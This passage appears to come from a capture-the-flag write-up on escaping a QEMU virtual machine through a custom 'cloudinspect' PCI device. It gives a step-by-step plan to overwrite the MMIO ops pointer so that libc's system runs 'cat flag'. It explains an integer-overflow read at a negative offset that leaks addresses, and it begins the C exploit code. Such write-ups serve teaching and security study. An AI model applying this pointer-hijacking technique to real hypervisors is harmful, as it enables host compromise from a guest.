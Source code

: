 Every time a read or write is performed on a MMIO region, one of the callbacks in `ops` is called with `opaque` as its first parameter. If we can swap the `ops` pointer to a structure we control, and then make `opaque` point to a string like `/bin/sh`, we can escape the VM! Our gameplan is the following:

1. Read `cloudstate.mmio->ops`.
2. Change `ops->read` to point to libc's `system`.
3. Write our fake `ops` into `dma_buf`.
4. Write the string `cat flag` at a different offset in `dma_buf`.
5. Read `cloudstate.mmio`.
6. Patch `mmio`:
	* Make `mmio->ops` point to our structure in `dma_buf`.
	* Make `mmio->opaque` point to our string in `dma_buf`.
7. Write `mmio` back to its location within `cloudstate`.
8. Trigger a read in order for `cloudstate.mmio->ops->read` to be called.

In order to do this, there are some addresses we need to know:

1. The address of `mmio->ops`. We can obtain it from our leak we got earlier, as it does not live in the heap.
2. The address of libc's `system`. We can obtain this from our leak as well.
3. The address of `cloudstate`. We need it to obtain the address of `dma_buf` as an offset from it. We will make `mmio->opaque` and `mmio->ops` point to `dma_buf`; we also need it in order to read/write any absolute address, as the parameter passed to `dma_memory_read`/`dma_memory_write` is calculated from `cloudstate->dma_buf`. Without it, we cannot read `mmio->ops` even if we know the absolute address.

The key to leaking `cloudstate`'s address is the fact that `cloudstate.mmio->opaque` contains a pointer to it (as seen in `pci_cloudinspect_realize`). Therefore, we can overflow the 64-bit addition in `cloudinspect_dma_rw` (`cloudinspect->dma_buf + src`) in order to read at a negative offset from `dma_buf`:

```c
/*
 struct CloudInspectState {
	PCIDevice pdev;
	MemoryRegion mmio;     <--- mmio->opaque at offset 80
	AddressSpace *as;

	struct dma_state {
		dma_addr_t src;
		dma_addr_t dst;
		dma_addr_t cnt;
		dma_addr_t cmd;
	} dma;
	char dma_buf[DMA_SIZE]; <--- cloudinspect->dma_buf + src => overflow
};
*/

/*
 * (gdb) print sizeof(PCIDevice)
 * $1 = 2288
 * (gdb) print sizeof(MemoryRegion)
 * $5 = 240
 */
#define PCIDEVICE_STRUCT_SIZE 2288
#define MEMORYREGION_SIZE     240

static u64 qemu_system = 0;
static u64 ops_addr = 0;
static u64 cloudstate_addr = 0;
static u64 mmio_addr = 0;
static u64 dma_buf_addr = 0;

volatile void* map_buf() {
	volatile void* out;
```